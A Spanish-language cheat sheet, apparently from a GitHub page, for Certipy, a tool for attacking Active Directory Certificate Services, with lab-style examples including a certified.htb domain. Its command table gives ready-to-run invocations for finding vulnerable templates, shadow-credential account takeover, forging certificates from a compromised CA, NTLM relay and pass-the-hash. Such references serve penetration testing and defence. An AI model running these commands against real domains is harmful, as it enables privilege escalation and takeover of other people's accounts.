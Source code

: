 # Certificate Authority & Common Name Enumeration with Certipy

Certipy es una herramienta para interactuar con Active Directory Certificate Services (AD CS). Permite enumerar, solicitar y gestionar certificados, así como identificar configuraciones vulnerables.

- [ESC9 ATTACK](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension)

## Instalación
- Instalar con pipx: `pipx install certipy-ad`

## Uso Básico
- Enumerar configuraciones vulnerables:
    ```bash
    certipy-ad find -u usuario@dominio.local -p contraseña -dc-ip 192.168.1.100 -vulnerable
    ```

## Comandos Principales

Certipy ofrece una variedad de comandos para realizar tareas relacionadas con AD CS. A continuación, se detalla cada comando con su descripción, opciones clave y ejemplos:

| Comando   | Descripción                                                                 | Opciones Clave y Ejemplos                                                                                                                                                     |
|-----------|-----------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| `find`    | Enumerar plantillas de certificados de AD CS, CAs y configuraciones, útil para identificar vulnerabilidades. | `-bloodhound`, `-enabled`, `-vulnerable`, `-dc-ip`. Ejemplo: `certipy-ad find -u john@corp.local -p Passw0rd -dc-ip 172.16.126.128 -vulnerable`                              |
| `req`     | Solicitar, recuperar y renovar certificados, útil para probar configuraciones. | `-ca`, `-template`, `-upn`, `-dns`. Ejemplo: `certipy-ad req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User`              |
| `auth`    | Autenticar usando PKINIT Kerberos o Schannel con certificados.              | `-pfx`, `-no-save`, `-ptt`, `-dc-ip`. Ejemplo: `certipy-ad auth -pfx administrator.pfx -dc-ip 172.16.126.128`                                                               |
| `shadow`  | Gestionar Credenciales Shadow para toma de control de cuentas.             | `-account`, `-device-id`, `auto`. Ejemplo: `certipy-ad shadow auto -username John@corp.local -p Passw0rd -account Jane`                                                     |
| `forge`   | Crear Certificados Dorados usando CA comprometida, útil para escalar privilegios. | `-ca-pfx`, `-upn`, `-dns`, `-template`. Ejemplo: `certipy-ad forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'` |
| `cert`    | Trabajar con archivos PFX, descifrar y extraer certificados/claves.         | `-pfx`, `-password`, `-export`, `-nokey`. Ejemplo: `certipy-ad cert -pfx encrypted.pfx -password "a387a1a1-5276-4488-9877-4e90da7567a4" -export -out decrypted.pfx`         |
| `relay`   | Realizar relay NTLM a endpoints HTTP/RPC de AD CS para explotar vulnerabilidades. | `-target`, `-ca`, `-template`. Ejemplo: `certipy-ad relay -target 'http://ca.corp.local'`                                                                                   |
| `ca`      | Gestionar CA y certificados, incluyendo respaldos y adición de oficiales.  | `-backup`, `-add-officer`, `-enable-template`. Ejemplo: `certipy-ad ca -backup -ca 'corp-DC-CA' -username administrator@corp.local -hashes fc525c9683e8fe067095ba2ddc971889` |
| `template`| Gestionar plantillas de certificados, incluyendo cambios de configuración. | `-save-old`, `-configuration`. Ejemplo: `certipy-ad template -username john@corp.local -password Passw0rd -template ESC4-Test -save-old`                                    |

## Ejemplo de Uso
- Enumerar configuraciones vulnerables con hashes NTLM:
    ```bash
    certipy-ad find -u ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -vulnerable -stdout
    ```